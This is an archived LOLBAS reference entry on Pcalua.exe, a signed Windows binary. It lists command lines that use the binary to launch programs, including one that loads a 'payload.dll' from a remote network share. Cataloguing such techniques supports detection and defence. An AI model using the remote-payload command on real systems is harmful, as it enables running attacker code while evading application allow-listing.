 # UPDATE BOOKMARKS - PROJECT MOVED TO A DEDICATED PROJECT SITE. THIS SITE WILL NOT BE UPDATED ANYMORE, BUT WILL BE KEPT FOR HISTORICAL REASONS.
New site: https://github.com/LOLBAS-Project/LOLBAS
Web portal: https://lolbas-project.github.io/ 
## Pcalua.exe

* Functions: Execute

```
pcalua.exe -a calc.exe    

pcalua.exe -a \\server\payload.dll    

pcalua.exe -a C:\Windows\system32\javacpl.cpl -c Java     
```

Acknowledgements:
* fab - @0rbz_    
* Kyle Hanslovan - @KyleHanslovan

Code sample:
* 

Resources:
* https://twitter.com/KyleHanslovan/status/912659279806640128

Full path:
```
c:\windows\system32\pcalua.exe
```

Notes:



 

